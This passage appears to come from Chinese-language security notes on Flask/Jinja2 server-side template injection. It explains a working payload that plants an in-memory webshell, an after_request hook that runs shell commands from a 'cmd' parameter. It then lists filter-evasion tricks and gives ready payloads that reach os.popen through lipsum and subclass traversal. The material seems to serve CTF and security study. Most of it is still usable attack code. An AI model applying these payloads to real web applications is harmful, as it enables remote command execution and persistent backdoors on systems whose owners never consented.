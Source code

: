 对于这段payload可以拆开解析：

```jinja2
{{ 
    url_for.__globals__['__builtins__']['eval'](
        "app.after_request_funcs.setdefault(None, []).append(\n"
        "    lambda resp: \n"
        "        CmdResp if request.args.get('cmd') \n"
        "        and exec(\n"
        "            \"global CmdResp; CmdResp = __import__('flask').make_response(\"\n"
        "            \"__import__('os').popen(request.args.get('cmd')).read())\"\n"
        "        ) == None \n"
        "        else resp\n"
        ")",
        {
            'request': url_for.__globals__['request'],
            'app': url_for.__globals__['current_app']
        }
    ) 
}}
```

详情可见：

https://mixbp.github.io/2025/04/16/python%E5%86%85%E5%AD%98%E9%A9%AC/

https://xz.aliyun.com/news/13858

https://longlone.top/%E5%AE%89%E5%85%A8/%E5%AE%89%E5%85%A8%E7%A0%94%E7%A9%B6/flask%E4%B8%8D%E5%87%BA%E7%BD%91%E5%9B%9E%E6%98%BE%E6%96%B9%E5%BC%8F/

https://xz.aliyun.com/news/10381

### WAF绕过

真实环境或者题目环境下会存在许多输入限制，防止你注入，有很多师傅在禁止输入和反禁止输入上有了很多奇技淫巧，叹为观止。前人之述备矣，我的研究也不是很充分，下面是一些比较完善的WAF绕过方法：

https://chenlvtang.top/2021/03/31/SSTI%E8%BF%9B%E9%98%B6/

https://xz.aliyun.com/news/7341

[SSTI模板注入详细总结及WAF绕过-CSDN博客](https://blog.csdn.net/2301_76690905/article/details/134257483)

`''|attr("__class__")`等效于`''.__class__`，要使用`xxx.os('xxx')`类似的方法，可以使用`xxx|attr("os")('xxx')`。即`.`等价于`|attr()`

使用flask里的lipsum方法来执行命令：flask里的lipsum方法,可以用于得到`__builtins__`，而且`lipsum.__globals__`含有os模块

可以得到`lipsum|attr("__globals__")`

```
{{lipsum.__globals__['os']['popen']('ls').read()}}
```

`{% print %}` 能在 Flask 模板中输出内容，本质是利用了 Jinja2 允许在 `{% %}` 标签中执行 Python 表达式的特性，通过调用 Python 内置的 `print` 函数将内容输出到渲染结果中。

```
{{"".__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['os'].popen("ls").read()}}
```
